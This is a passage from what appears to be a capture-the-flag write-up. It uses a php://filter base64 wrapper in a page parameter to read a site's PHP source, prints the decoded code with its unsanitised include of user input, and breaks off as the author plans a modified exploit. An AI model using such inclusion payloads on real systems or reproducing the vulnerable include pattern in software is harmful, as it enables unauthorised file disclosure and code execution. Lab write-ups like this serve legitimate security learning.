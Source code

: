 2. Using php wrappers

Using php wrappers to view local files
```console
http://178.128.46.171:9006/?page=php://filter/convert.base64-encode/resource=index
```
Found php source codes encodes as `base64`. Decording base64 find source code.
```console
<?php include("includes/a_config.php");
?>
<!DOCTYPE html>
<html>
<head>
        <?php include("includes/head-tag-contents.php");?>
</head>
<body>

<?php include("includes/design-top.php");?>
<?php include("includes/navigation.php");?>

<?php
        $page = $_GET["page"];
        include($page.'.php');
?>

<div class="container" id="main-content">
        <h2>Welcome to my website!</h2>
        <p>Some content goes here! Let's go with the classic "lorem ipsum."</p>

        <p>
                Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
        </p>
        <p>
                Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
        </p>
</div>

<?php include("includes/footer.php");?>

</body>
</html>
```
So it seems we cann't get flag from here, Because it is appending anything you request with .php
```bash
<?php
        $page = $_GET["page"];
        include($page.'.php');
?>
```
let modify our past exploit 
